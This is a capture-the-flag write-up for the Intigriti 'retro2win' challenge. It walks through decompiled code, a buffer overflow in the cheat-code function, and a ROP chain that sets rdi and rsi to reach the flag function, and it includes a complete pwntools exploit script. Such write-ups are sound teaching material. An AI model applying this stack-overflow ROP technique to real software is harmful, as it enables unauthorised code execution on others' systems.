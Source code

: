 Decompile we have the main function as follows:
```c!
// local variable allocation has failed, the output may be wrong!
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h] BYREF

  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        show_main_menu(*(_QWORD *)&argc, argv, envp);
        argv = (const char **)&v4;
        *(_QWORD *)&argc = "%d";
        __isoc99_scanf("%d", &v4);
        getchar();
        if ( v4 != 2 )
          break;
        battle_dragon();
      }
      if ( v4 > 2 )
        break;
      if ( v4 != 1 )
        goto LABEL_12;
      explore_forest();
    }
    if ( v4 == 3 )
      break;
    if ( v4 == 1337 )
    {
      enter_cheatcode();
    }
    else
    {
LABEL_12:
      *(_QWORD *)&argc = "Invalid choice! Please select a valid option.";
      puts("Invalid choice! Please select a valid option.");
    }
  }
  puts("Quitting game...");
  return 0;
}
```
With option 2, we will call the **battle_dragon()** function:

![image](https://hackmd.io/_uploads/HyaBdqSMyg.png)

With options less than 2, we will call the function **explore_forest()**:

![image](https://hackmd.io/_uploads/SyzKO9HMkg.png)

With the option 1337, we call the function **enter_cheatcode()**:

![image](https://hackmd.io/_uploads/SykCO9SM1x.png)

We have a buffer overflow bug here.
In addition, we also have the function **cheat_mode()** to check the condition, if true it will call the flag:

![image](https://hackmd.io/_uploads/SJhgY5rMke.png)

But if checked in ida , we will see that a1 and a2 will get values ​​from the registers rdi and rsi, so we will try to change these 2 registers to satisfy the condition.
We will use some gadgets to change these 2 registers:

![image](https://hackmd.io/_uploads/B11295Szye.png)

Now we will find the return address offset of the function **enter_cheatcode()**:

![image](https://hackmd.io/_uploads/By8UjqrM1l.png)

So the offset will be 24.
We have the following script:
```python!
#!/usr/bin/env python3

from pwn import *

exe = ELF("./retro2win_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("retro2win.ctf.intigriti.io", 1338)

    return r


def main():
    r = conn()
    # rbp - 0x60 = 0x7ffebdf10bf8:
    input()
    # Enter cheat code
    r.sendline(b'1337')
    cheat_mode = 0x0000000000400736
    pop_rdi = 0x00000000004009b3
    pop_rsi_r15 = 0x00000000004009b1
    payload =b'A'*24
    pause()
    # Control rdi and rsi register and return to cheatmode
    payload += p64(pop_rdi) + p64(0x2323232323232323) + p64(pop_rsi_r15) + p64(0x4242424242424242) + p64(0) + p64(cheat_mode)
    r.sendline(payload)
    pause()
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```

Run locally:
![image](https://hackmd.io/_uploads/B11oi5SMkl.png)
Run on server:
![image](https://hackmd.io/_uploads/rJiiicSGkg.png)
Flag: ```INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}```
